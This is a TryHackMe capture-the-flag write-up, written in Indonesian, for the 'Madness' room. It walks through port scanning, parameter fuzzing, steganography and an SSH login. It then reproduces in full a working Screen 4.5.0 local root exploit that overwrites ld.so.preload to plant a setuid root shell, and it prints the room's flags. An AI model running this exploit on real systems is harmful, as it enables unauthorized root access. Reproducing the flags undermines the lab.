






# Madness — TryHackMe Writeup

**Target:** Madness  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, Steganography, SSH, Screen Privilege Escalation

---

## Recon

Dimulai dengan Rustscan untuk port scanning

```bash
rustscan -b 2000 --scripts none -t 10000 -a TARGET_IP
```

Dilanjutkan dengan Nmap untuk enumerasi service.

```bash
nmap -sC -sV -T4 -p22,80 TARGET_IP
```



---

## Web Enumeration

Saat saya coba membuka website, homepage masih menampilkan default Apache2 Ubuntu page.

Saya kemudian mencoba menggunakan Feroxbuster untuk melakukan directory fuzzing dan menemukan `/thm.jpg`. Namun, file tersebut rusak.

Saya mencoba meminta GPT untuk melakukan recovery terhadap file tersebut dan berhasil mendapatkan hasil berikut:



Setelah itu saya mengecek directory tersebut dan mendapatkan:

```html
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```

Tidak ada form untuk melakukan testing terhadap secret tersebut. Namun, karena website ini menggunakan PHP, saya mencoba menggunakan parameter `?secret=` dan ternyata parameter tersebut dapat digunakan.

Setelah mengonfirmasi hal tersebut, saya mencoba melakukan fuzzing terhadap nilai secret dengan filtering response.

```bash
ffuf -w nums.txt -u "http://TARGET_IP/th1s_1s_h1dd3n/?secret=FUZZ" -fs 408,407
```

Hasilnya:

```text
73                      [Status: 200, Size: 445, Words: 53, Lines: 19, Duration: 82ms]
```

Response tersebut memberikan string:

```text
y2RPJ4QaPF!B
```

Saya mencoba melakukan decoding menggunakan ROT karena hint dari room mengindikasikan penggunaan ROT, tetapi tidak membuahkan hasil.

Setelah beberapa waktu, saya menemukan bahwa ada sesuatu yang menarik di `thm.jpg` hasil recovery. Setelah file tersebut diekstrak menggunakan password `y2RPJ4QaPF!B`, saya mendapatkan file `hidden.txt`.



Isi file tersebut berupa:

```text
wbxre
```

Saya kemudian mencoba ROT-13 dan mendapatkan:

```text
ROT-13: joker
```

Dari sini saya mendapatkan username **joker**.

---

## Initial Foothold — SSH

Setelah mendapatkan username `joker`, saya mencoba beberapa cara untuk menemukan password, tetapi belum berhasil.

Saya kemudian melihat writeup dari orang lain untuk mendapatkan hint dan menemukan bahwa saya harus mendownload gambar dari room tersebut di TryHackMe.



Setelah gambar tersebut didownload, saya mencoba melakukan ekstraksi menggunakan password kosong dan mendapatkan:

```text
password.txt
```

Password tersebut kemudian digunakan untuk login SSH sebagai `joker`.



---

## Privilege Escalation — Screen 4.5.0

Setelah berhasil login, saya melanjutkan enumerasi dan menemukan:

```text
/bin/screen-4.5.0
/bin/screen-4.5.0.old
```

Setelah dicek lebih lanjut, versi Screen yang digunakan ternyata vulnerable dan dapat digunakan sebagai jalur privilege escalation menuju root.

Payload yang digunakan:

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Setelah payload tersebut saya paste dan eksekusi, saya berhasil mendapatkan root.



---

## Flags

### User Flag

```text
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### Root Flag

```text
THM{5ecd98aa66a6abb670184d7547c8124a}
```

